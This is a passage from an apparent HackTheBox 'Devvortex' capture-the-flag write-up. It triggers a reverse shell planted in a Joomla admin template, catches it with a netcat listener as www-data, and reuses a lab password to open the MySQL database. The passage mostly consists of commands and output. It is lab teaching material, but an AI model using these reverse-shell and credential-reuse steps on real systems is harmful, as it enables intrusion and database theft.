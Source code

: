 ![joomla_dashboard_administrator_templates_reverseshell](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Devvortex/joomla_dashboard_administrator_templates_reverseshell.png?raw=true)

Start a listener and call the `error.php` page.

```bash
$ curl "http://dev.devvortex.htb/administrator/templates/atum/error.php"
```

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.242] 57428
bash: cannot set terminal process group (853): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

With a shell access, we can access the internal `mysql` database with `lewis` credentials again.

```bash
www-data@devvortex:/home/logan$ mysql -h 127.0.0.1 -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##
...
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
```